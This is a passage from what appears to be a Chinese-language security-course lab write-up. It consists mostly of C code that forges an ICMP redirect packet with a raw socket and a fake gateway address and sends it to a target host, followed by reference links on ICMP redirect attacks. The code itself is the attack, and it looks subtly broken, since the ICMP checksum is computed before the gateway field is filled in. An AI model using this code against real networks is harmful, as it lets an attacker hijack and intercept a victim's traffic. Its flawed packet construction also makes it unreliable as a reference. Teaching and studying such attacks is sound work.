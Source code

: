    ```c
               exit(1);
           }
   
           // task-1: 修改rec_buff的ip报文段的值
           ip->ip_src = source.sin_addr;
           ip->ip_dst = target.sin_addr;
           ip->ip_len = 56;
           ip->ip_id = IP_DF;
           ip->ip_off = 0;
           ip->ip_ttl = 64;
           ip->ip_p = 1;
   
           // 把前20个字节写入sendbuf
           for(int i = 0; i < 20; i++){
               send_buff[i] = rec_buff[14 + i];
           }
   
           // task-2: 把send_buff的20-28字段的icmp报文首部填好(直接使用sendbuf填值)
           struct icmp *icmp = (struct icmp *)(send_buff + 20);
           icmp->icmp_type = ICMP_REDIRECT;
           icmp->icmp_code = ICMP_REDIR_HOST;
           icmp->icmp_cksum = 0;
           icmp->icmp_cksum = in_cksum((unsigned short *)icmp,36);
           // 构造icmp重定向报文的fake gatway
           if(inet_aton(fakeGatway, &icmp->icmp_hun.ih_gwaddr) == 0){
               printf("create destination_addr error");
               exit(1);
           }
   
           // 打印的时候用
           printf("重定向报文的源地址: %s\n", my_IP_src);
           printf("重定向报文的目的地址: %s\n", my_IP_dst);
           printf("重定向报文的假网关: %s\n", fakeGatway);
   
           // send
           sendto(sockfd, &send_buff, 56, 0, (struct sockaddr *)&target, sizeof(target));
       }
   
   }
   ```

运行效果：





## 参考链接

[【实现netwox 86的功能】使用raw socket实现icmp重定向攻击 - 简书 (jianshu.com)](https://www.jianshu.com/p/f07c0eb43fae)

[信息安全课程6：ICMP协议安全 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/58662573)
